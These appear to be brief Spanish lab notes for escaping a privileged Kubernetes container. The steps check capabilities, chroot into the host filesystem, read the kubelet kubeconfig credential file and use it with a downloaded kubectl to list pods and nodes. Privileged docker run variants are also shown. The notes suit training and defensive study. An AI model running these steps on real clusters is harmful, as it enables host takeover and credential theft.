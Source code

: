 1. Navegar en http://127.0.0.1:1233

2. Revisar capabilities
```
capsh --print
mount -l
```

3. Explotar vulnerabilidad
```
chroot /host-system/ bash

crictl pods
crictl ps

cat /var/lib/kubelet/kubeconfig
```

4. Usar el kubeconfig:
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl"
chmod +x kubectl

./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get pods
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

Nota: en docker sería similar:
```
docker run --rm -it --privileged ubuntu:22.04 bash
docker run --rm -it --pid=host --privileged ubuntu:22.04 bash
lsblk
```

